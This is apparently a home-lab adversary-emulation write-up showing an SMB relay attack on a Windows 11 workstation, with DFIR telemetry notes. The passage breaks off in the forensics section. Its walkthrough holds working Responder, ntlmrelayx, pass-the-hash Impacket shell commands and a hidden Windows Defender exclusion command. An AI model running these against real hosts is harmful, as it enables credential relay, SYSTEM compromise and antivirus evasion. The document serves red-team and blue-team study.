

# Adversary Emulation Case Study: Nessus Recon to SMB Relay & Impacket Shell Pivoting


> **Disclaimer:** All testing, reconnaissance, and exploitation documented in this repository were conducted strictly within an isolated, privately owned physical hardware home lab environment for offensive security research and defensive telemetry validation.

---

## 📋 Table of Contents
1. [Engagement Overview](#-engagement-overview)
2. [Executive Summary](#-1-executive-summary)
3. [Visual Attack Flow (Mermaid)](#-2-visual-attack-flow)
4. [MITRE ATT&CK® Mapping](#-3-mitre-attck-framework-mapping)
5. [Technical Walkthrough & CLI Execution Log](#-4-technical-walkthrough--cli-execution-log)
6. [DFIR & Host-Based Forensic Artifacts](#-5-dfir--host-based-forensic-artifacts)
7. [Post-Relay Execution Vector Comparison](#-6-post-relay-execution-vector-comparison)
8. [Remediation & Blue Team Hardening](#-7-remediation--blue-team-hardening)

---

## 🎯 Engagement Overview

| Metadata | Details |
| :--- | :--- |
| **Assessment Type** | Internal Network Vulnerability Assessment, Adversary Emulation & DFIR Telemetry Analysis |
| **Target Environment** | Physical Windows 11 Enterprise Workstation (Isolated Local Lab Subnet) |
| **Primary Kill Chain** | `Nmap` / `Nessus` ➔ `Responder` (LLMNR/NBT-NS) ➔ `ntlmrelayx` ➔ `wmiexec` ➔ `smbexec` / `atexec` |
| **Privilege Achieved** | Unauthenticated LAN Position ➔ `NT AUTHORITY\SYSTEM` |
| **Key Takeaway** | Demonstrates how disabled SMB signing chains with legacy name resolution to yield full host compromise, and how operators pivot across native Windows RPC/SMB pipes when EDR throttles WMI child processes. |

---

## 📄 1. Executive Summary

During an internal adversary emulation exercise, an operator positioned on the local network segment conducted active reconnaissance and vulnerability scanning using **Tenable Nessus** and **Nmap** to profile a target Windows 11 Enterprise workstation. Unauthenticated vulnerability scanning immediately exposed a critical protocol misconfiguration: **SMB Message Signing was not enforced** on the endpoint (Nessus Plugin ID `57608`), alongside exposed Windows management ports (TCP 135, 139, and 445).

Armed with this reconnaissance, the operator bypassed traditional credential harvesting and exploited legacy broadcast name resolution protocols (**LLMNR** and **NBT-NS**) to intercept and relay NetNTLMv2 authentication traffic directly to the vulnerable SMB service. This established an authenticated administrative session, enabling the deployment of a semi-interactive command shell over standard Windows management interfaces (**WMI**, **SMB Service Execution**, and **Task Scheduler**). 

When endpoint behavioral monitoring (Microsoft Defender) disrupted initial WMI execution channels, the operator demonstrated lateral protocol adaptability—pivoting execution vectors from `wmiexec.py` to `smbexec.py` and `atexec.py` and leveraging directory exclusions to maintain persistent, stealthy command-and-control over the host.

---

## 🔀 2. Visual Attack Flow



---

## 🛡️ 3. MITRE ATT&CK® Framework Mapping

| Tactic | Technique ID | Technique Name | Adversary Emulation Procedure |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | **T1595.002** | Active Scanning: Vulnerability Scanning | Conducted **Nessus** vulnerability scans against the target workstation to identify exploitable protocol misconfigurations, notably disabled SMB signing (Plugin `57608`). |
| **Discovery** | **T1046** | Network Service Discovery | Utilized **Nmap** and **Nessus** service enumeration plugins to map open management ports (TCP 135 MSRPC, TCP 139 NetBIOS, TCP 445 SMB) on the local subnet. |
| **Discovery** | **T1018** | Remote System Discovery | Enumerated live hosts, OS build versions (Windows 11 Enterprise), and active SMB/NetBIOS listeners across the internal lab network segment. |
| **Credential Access / Collection** | **T1557.001** | Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay | Used **Responder** and **Impacket (`ntlmrelayx.py`)** to poison broadcast name resolution requests and intercept NetNTLMv2 challenges on the local LAN. |
| **Credential Access** | **T1187** | Forced Authentication | Spoofed network resource availability to coerce the target Windows endpoint into automatically transmitting NTLM authentication tokens over SMB. |
| **Defense Evasion / Lateral Movement** | **T1550.002** | Use Alternate Authentication Material: Pass the Hash / Relay | Relayed captured NetNTLMv2 authentication directly to the target's `IPC$` and `ADMIN$` shares without cracking the underlying password. |
| **Lateral Movement** | **T1021.002** | Remote Services: SMB/Windows Admin Shares | Accessed hidden administrative shares (`ADMIN$`, `C$`) over TCP 445 to stage command output buffers and interact with the Service Control Manager (SCM). |
| **Execution** | **T1047** | Windows Management Instrumentation | Utilized **`wmiexec.py`** to spawn a semi-interactive shell by invoking WMI classes remotely without dropping a persistent agent binary to disk. |
| **Execution** | **T1569.002** | System Services: Service Execution | Pivoted to **`smbexec.py`** when WMI sessions degraded, creating and deleting transient Windows services to execute arbitrary shell commands as `SYSTEM`. |
| **Execution / Persistence** | **T1053.005** | Scheduled Task/Job: Scheduled Task | Employed **`atexec.py`** as a secondary fallback to execute single-shot reconnaissance and staging commands via the Task Scheduler RPC interface (`TSCH`). |
| **Execution** | **T1059.003** | Command and Scripting Interpreter: Windows Command Shell | Executed native `cmd.exe` commands (`%COMSPEC%`) redirected into temporary share files to simulate interactive shell operations. |
| **Defense Evasion** | **T1562.001** | Impair Defenses: Disable or Modify Tools | Configured directory exclusions within Windows Defender (`Add-MpPreference -ExclusionPath`) to stage tooling outside the scope of real-time antivirus scanning. |

---

## 💻 4. Technical Walkthrough & CLI Execution Log

### 4.1 Initial Network & SMB Surface Verification (`Nmap` & `Nessus`)
Targeted port enumeration and NSE checks were executed first to identify active Windows management interfaces and verify SMB signing enforcement:

```bash
# Enumerate MSRPC (135), NetBIOS (139), SMB (445), and WinRM (5985/5986) plus SMB2 signing state
nmap -Pn -sS -p 135,139,445,5985,5986 --script smb2-security-mode,smb-protocols <TARGET_IP>
```

```text
Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

Both **uncredentialed** (zero-knowledge attacker view) and **credentialed** (configuration audit view) Nessus scans were then executed. To evaluate full credentialed visibility during baseline testing, File and Printer Sharing and the `RemoteRegistry` service were enabled alongside `LocalAccountTokenFilterPolicy = 1` under `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`.

| Plugin ID | Plugin Name | Severity | Technical Observation & Exploitation Relevance |
| :--- | :--- | :--- | :--- |
| **57608** | **SMB Signing not required** | **Medium (Critical in Relay Context)** | Confirmed that the remote SMB server does not enforce packet signing. Directly enables NetNTLMv2 man-in-the-middle relaying via `ntlmrelayx.py`. |
| **10785** | **SMB NativeLanManager System Info Disclosure** | **Info** | Identified exact OS build (Windows 11 Enterprise) and hostname via unauthenticated SMB session setup. |
| **10395** | **Microsoft Windows SMB Shares Enumeration** | **Info** | Enumerated accessible administrative shares (`ADMIN$`, `C$`, `IPC$`) exposed over TCP 445 when authenticated sessions are established. |
| **10736** | **DCE Services Enumeration** | **Info** | Mapped exposed MSRPC endpoints over TCP 135 and dynamic RPC ports, confirming active listeners for WMI (`IWbemLevel1Login`), Service Control Manager (`svcctl`), and Task Scheduler (`atsvc`). |
| **10394** | **Microsoft Windows SMB Log In Possible** | **Info** | Confirmed that local administrative sessions can authenticate over SMB without UAC remote restrictions blocking access to `ADMIN$`. |

---

### 4.2 Listener Preparation & Name Resolution Poisoning (`Responder`)
To prevent port conflicts on the attack host while `ntlmrelayx.py` binds to incoming relayed connections, `Responder.conf` was updated to disable its internal SMB and HTTP listeners:

```bash
# Disable SMB and HTTP listeners in Responder.conf so ntlmrelayx can bind to TCP 445 and 80
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf

# Launch Responder on the active LAN interface to poison LLMNR (UDP 5355) and NBT-NS (UDP 137)
sudo responder -I eth0 -dwv
```

---

### 4.3 NTLM Relay & Credential/Session Extraction (`ntlmrelayx.py`)
In a parallel terminal, Impacket's `ntlmrelayx.py` was configured to relay captured NetNTLMv2 handshakes directly to the Windows 11 target (`<TARGET_IP>`):

```bash
# Option A: Relay poisoned NetNTLMv2 authentication into an active SOCKS4a proxy session
impacket-ntlmrelayx -t smb://<TARGET_IP> -smb2support -socks

# Option B: Spawn an interactive SMB client shell or dump SAM hashes directly upon relay
impacket-ntlmrelayx -t smb://<TARGET_IP> -smb2support -i
```

---

### 4.4 Initial Semi-Interactive Shell via WMI (`wmiexec.py`)
Using either the active SOCKS tunnel (`proxychains4` with `-no-pass`) or the local administrator NTLM hash extracted via the relay (`-hashes :NTHASH`), `wmiexec.py` was executed to establish a fileless semi-interactive shell:

```bash
# Via SOCKS proxy using the active relayed session
proxychains4 -q impacket-wmiexec -no-pass <DOMAIN_OR_HOST>/<ADMIN_USER>@<TARGET_IP>

# Or directly via Pass-the-Hash once local SAM hashes were captured
impacket-wmiexec -hashes :<NTHASH> <ADMIN_USER>@<TARGET_IP>
```

> **Operational Friction:** Repeated spawning of `cmd.exe` under `WmiPrvSE.exe` with stdout redirected to `\\127.0.0.1\ADMIN$\` triggered Windows Defender behavioral monitoring, resulting in hung sessions and dropped connections.

---

### 4.5 Lateral Protocol Pivot to Service & Task Execution (`smbexec.py` & `atexec.py`)
When WMI execution degraded, operations pivoted to `smbexec.py` (which communicates with the Service Control Manager over TCP 445 to spin up an ephemeral `SYSTEM` service) and `atexec.py` (which executes commands via the Task Scheduler RPC pipe):

```bash
# Pivot 1: Service-based semi-interactive shell over SMB (TCP 445)
impacket-smbexec -hashes :<NTHASH> <ADMIN_USER>@<TARGET_IP>

# Pivot 2: Single-shot SYSTEM verification via Task Scheduler RPC
impacket-atexec -hashes :<NTHASH> <ADMIN_USER>@<TARGET_IP> "whoami /all"

# Defense Evasion: Configure a Windows Defender directory exclusion for payload staging
impacket-atexec -hashes :<NTHASH> <ADMIN_USER>@<TARGET_IP> \
  "powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -Command Add-MpPreference -ExclusionPath 'C:\ProgramData\Staging'"
```

---

## 🔍 5. DFIR & Host-Based Forensic Artifacts

Every phase of the emulation generated high-signal telemetry on the Windows 11 Enterprise host.

### 5.1 NTLM Relay & SMB Authentication Telemetry
* **`Security.evtx` — Event ID 4624 (Successful Logon):**
  * **Logon Type:** `3` (Network) | **Authentication Package:** `NTLM` (`NTLM V2`)
  * **Anomaly Indicator:** Workstation Name reflects the victim host while **Source Network Address** shows `<ATTACKER_IP>`.
* **`Security.evtx` — Event ID 4672:** Special privileges (`SeDebugPrivilege`, `SeTakeOwnershipPrivilege`) assigned to the network logon.
* **`Security.evtx` — Event IDs 5140 & 5145:** Network share access to `\\*\IPC$`, `\\*\ADMIN$`, and `\\*\C$`.

### 5.2 `wmiexec.py` Footprint
* **Process Lineage (`Security.evtx` Event ID 4688 / `Sysmon` Event ID 1):**
  * **ParentImage:** `C:\Windows\System32\wbem\WmiPrvSE.exe`
  * **Image:** `C:\Windows\System32\cmd.exe`
  * **CommandLine:**
    ```cmd
    cmd.exe /Q /c <command> 1> \\127.0.0.1\ADMIN$\__1729872000.123456 2>&1
    ```
* **File System (`Sysmon` Event ID 11 / NTFS `$UsnJrnl`):** Creation and rapid deletion of `C:\Windows\__<epoch_timestamp>`.

### 5.3 `smbexec.py` Footprint
* **Service Installation (`System.evtx` Event ID 7045 / `Security.evtx` Event ID 4697):**
  * **Service Name:** `BTOBTO` (default Impacket service identifier) | **AccountName:** `LocalSystem`
  * **Service File Name (`ImagePath`):**
    ```cmd
    %COMSPEC% /Q /c echo <command> ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
    ```
* **Process Lineage:** `services.exe` ➔ `cmd.exe` running as `NT AUTHORITY\SYSTEM`.
* **File System:** Transient creation and deletion of `C:\Windows\Temp\execute.bat` and `C:\__output`.

### 5.4 `atexec.py` Footprint
* **Scheduled Task Telemetry (`Security.evtx` Event IDs 4698 & 4699 / `TaskScheduler/Operational` Event IDs 106, 140, 141, 200):**
  * **Task Name:** `\<8-character random string>` (e.g., `\IvKzLpQr`)
  * **Action Command:**
    ```cmd
    cmd.exe /C <command> > %windir%\Temp\<8-char-random>.tmp 2>&1
    ```
* **Process Lineage:** `svchost.exe -k netsvcs -p -s Schedule` ➔ `cmd.exe` (`NT AUTHORITY\SYSTEM`).
* **File System:** Ephemeral XML task definition in `C:\Windows\System32\Tasks\<8-char-random>` and output buffer in `C:\Windows\Temp\<8-char-random>.tmp`.

### 5.5 Windows Defender Telemetry & Exclusion Tampering
* **`Windows Defender/Operational.evtx` — Event IDs 1116 & 11
